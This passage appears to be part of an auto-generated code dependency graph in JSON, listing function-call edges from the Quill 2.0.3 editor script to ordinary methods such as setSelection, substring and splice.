{"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "updateContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "startsWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLeaf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "table"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "diff"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "nmd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "nmd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "binding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", 